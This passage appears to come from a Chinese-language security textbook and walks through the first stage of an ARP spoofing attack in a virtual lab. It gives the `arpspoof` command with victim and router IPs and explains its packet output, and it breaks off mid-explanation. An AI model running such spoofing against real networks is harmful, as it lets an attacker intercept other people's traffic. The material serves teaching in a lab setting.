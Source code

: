 ![image](img/ch02fig04.jpg)

*图 2-4：ARP 欺骗攻击的第一阶段*

你可以通过运行以下命令生成多个假的 ARP 回复：

```
arpspoof -i eth0 -t <VICTIM_IP> <ROUTER_IP>
```

`-t` 标志指定目标，`-i` 标志表示接口。你的网卡支持多种连接网络的方式。例如，`wlan` 代表无线局域网（Wi-Fi 连接），`eth0` 代表以太网连接。在这个虚拟实验环境中，机器是通过以太网虚拟连接的，因此你将使用 `eth0` 作为你的接口。在咖啡馆环境中，接口将设置为 `wlan`。

以下代码片段展示了运行 `arpspoof` 的结果。你需要生成多个假的 ARP 回复，以确保表格始终更新为错误信息。该工具会为你生成多个数据包，所以你只需运行一次。

```
kali@kali:~$ sudo arpspoof -i eth0 -t 192.168.100.101 192.168.100.1

[sudo] password for kali:

8:0:27:1f:30:76 8:0:27:fe:31:e6 0806 42: arp reply 192.168.100.1 is-at 8:0:27:1f:30:76 ➊

8:0:27:1f:30:76 8:0:27:fe:31:e6 0806 42: arp reply 192.168.100.1 is-at 8:0:27:1f:30:76
```

让我们来查看命令的输出，特别关注第一行 ➊。这一行表示刚刚发送的数据包中的信息摘要。该摘要由五个关键部分组成：

1\. `8:0:27:1f:30:76` 是 Kali Linux 机器（攻击者）的 MAC 地址，它创建了这个数据包。

2\. `8:0:27:fe:31:e6` 是将接收数据包的机器（受害者）的 MAC 地址。
